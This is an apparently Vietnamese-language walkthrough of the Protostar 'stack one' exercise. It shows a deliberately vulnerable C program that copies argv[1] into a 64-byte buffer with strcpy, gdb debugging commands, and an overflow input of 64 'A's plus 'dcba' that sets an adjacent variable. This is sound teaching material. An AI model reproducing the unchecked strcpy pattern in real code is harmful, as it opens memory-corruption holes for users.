



# Stack one
Ta có chương trình C sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {  //abcd
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

bài này tương tự bài trước, nhưng thay vì làm cho modified có giá trị bất kì thì ta làm cho modified có giá trị là abcd (4 bytes)

và vì đây là kiến trúc little edian nên ta phải truyền vào lần lượt là dcba
Do đó


debug một chút
> gdb ./stack1
> b *main
> set disassembly-flavor intel
> disass main
> info proc mappings
> define hook-stop
> info register
> x/24wx \$esp
> x/2i \$eip
> end
> r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
> b *0x080484ab



như vậy đây là giá trị của biến modified sau khi nó bị chỉnh sửa.
